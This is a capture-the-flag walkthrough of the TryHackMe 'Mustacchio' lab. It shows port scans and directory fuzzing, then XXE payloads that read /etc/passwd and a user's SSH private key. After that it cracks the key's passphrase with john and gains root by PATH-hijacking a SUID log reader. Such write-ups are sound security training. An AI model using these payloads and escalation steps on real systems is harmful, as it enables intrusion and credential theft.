 ## Mustacchio
https://tryhackme.com/room/mustacchio

## Enum
```
nmap -Pn -sC -sV -A 10.10.103.66 -vv

Scanning ip.thm (10.10.103.66) [1000 ports]
Discovered open port 22/tcp on 10.10.103.66
Discovered open port 80/tcp on 10.10.103.66

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Mustacchio | Home
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
 ffuf -u http://ip.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
________________________________________________

.htpasswd               [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 325ms]
.hta                    [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 5197ms]
.htaccess               [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 5185ms]
custom                  [Status: 301, Size: 301, Words: 20, Lines: 10, Duration: 321ms]
fonts                   [Status: 301, Size: 300, Words: 20, Lines: 10, Duration: 334ms]
images                  [Status: 301, Size: 301, Words: 20, Lines: 10, Duration: 316ms]
index.html              [Status: 200, Size: 1752, Words: 77, Lines: 73, Duration: 329ms]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3, Duration: 325ms]
server-status           [Status: 403, Size: 271, Words: 20, Lines: 10, Duration: 352ms]
:: Progress: [4713/4713] :: Job [1/1] :: 125 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```

![image](https://user-images.githubusercontent.com/6504854/187075260-131c41fe-64ca-4099-b192-270e787e71f2.png)

```
 file /root/Downloads/users.bak
/root/Downloads/users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2
```

![image](https://user-images.githubusercontent.com/6504854/187086195-587d5a5c-c6ff-41a1-8489-d31eaf16cbff.png)

![image](https://user-images.githubusercontent.com/6504854/187086151-26d65ac8-3a54-4b57-8fdc-fe2424b975f4.png)

🏴 I got admin's credential but no login form. May be it's another port?

```
nmap -Pn 10.10.103.66 -vv -p- --min-rate 1000

Scanning ip.thm (10.10.103.66) [65535 ports]
Discovered open port 22/tcp on 10.10.103.66
Discovered open port 80/tcp on 10.10.103.66
Discovered open port 8765/tcp on 10.10.103.66
Not shown: 65532 filtered tcp ports (no-response)

PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8765/tcp open  ultraseek-http syn-ack ttl 63
```
🏴 I scanned with min-rate 5000 and Nmap droped all ports. 😢

![image](https://user-images.githubusercontent.com/6504854/187078049-c0fd24c9-6dda-4ca2-8306-7ca1001352ac.png)

![image](https://user-images.githubusercontent.com/6504854/187086425-de02866e-c1ed-44ef-ad57-2cee27baa7eb.png)

![image](https://user-images.githubusercontent.com/6504854/187086577-4c8242cd-5721-4867-8a3a-2df653faaf86.png)

```
wget ip.thm:8765/auth/dontforget.bak

Saving to: ‘dontforget.bak’
```

```
cat dontforget.bak

<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
```
![image](https://user-images.githubusercontent.com/6504854/187086739-dc30d0be-0544-4ce7-8c48-5fe5e91a606c.png)

![image](https://user-images.githubusercontent.com/6504854/187086785-6a3d01e9-b5f8-4784-a30b-2e8c8a111c20.png)

```
POST /home.php HTTP/1.1
Host: ip.thm:8765
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=gcthsudm9vk5aekeugannr9ot7
Content-Length: 212

xml=<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
<!DOCTYPE root [<!ENTITY example SYSTEM 'file:///etc/passwd'>]>
<comment>
  <name>test</name>
  <author>test</author>
  <com>%26example%3b</com>
</comment>
```
🏴 %26 %3b

![image](https://user-images.githubusercontent.com/6504854/187087123-c9e582db-930a-47c6-a761-3d0b6785ea82.png)

```
POST /home.php HTTP/1.1
Host: ip.thm:8765
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=gcthsudm9vk5aekeugannr9ot7
Content-Length: 216

xml=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY example SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>test</name>
  <author>test</author>
  <com>%26example%3b</com>
</comment>
```

```
chmod 600 barry_rsa

ssh barry@ip.thm -i barry_rsa
Enter passphrase for key 'barry_rsa':
barry@ip.thm: Permission denied (publickey).
```
😢

```
ssh2john barry_rsa > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])

u********       (barry_rsa)

Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
john氏～😘😘😘　やっとこさ。

## Flag
```
ssh barry@ip.thm -i barry_rsa
Enter passphrase for key 'barry_rsa':
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

barry@mustacchio:~$cat user.txt
```

```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

-rwsr-xr-x 1 root root 84120 Apr  9  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14864 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 110792 Feb  8  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 May 26  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 Jan 27  2020 /bin/umount
-rwsr-xr-x 1 root root 40152 Jan 27  2020 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
```

```
file /home/joe/live*

/home/joe/live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
```

```
barry@mustacchio:~$ /home/joe/live_log

10.4.63.222 - - [28/Aug/2022:17:31:11 +0000] "POST /home.php HTTP/1.1" 200 2080 "-" "-"
10.4.63.222 - - [28/Aug/2022:17:31:29 +0000] "POST /home.php HTTP/1.1" 200 3853 "-" "-"
10.4.63.222 - - [28/Aug/2022:17:32:24 +0000] "POST /home.php HTTP/1.1" 200 3853 "-" "-"
^CLive Nginx Log Readerbarry
```

```
@mustacchio:~$ strings /home/joe/live_log

/lib64/ld-linux-x86-64.so.2
libc.so.6
........
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
........
```

```
barry@mustacchio:~$ echo '/bin/bash' > tail
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=/home/barry:$PATH
barry@mustacchio:~$ /home/joe/live_log

root@mustacchio:~# cat /root/root.txt
```

Thank you for your time! Happy Hacking 😄 😪 🛌

wget できなくて、そうい堅牢化のやりかたもあるかと思った。Polkitできなかった。ねるか。

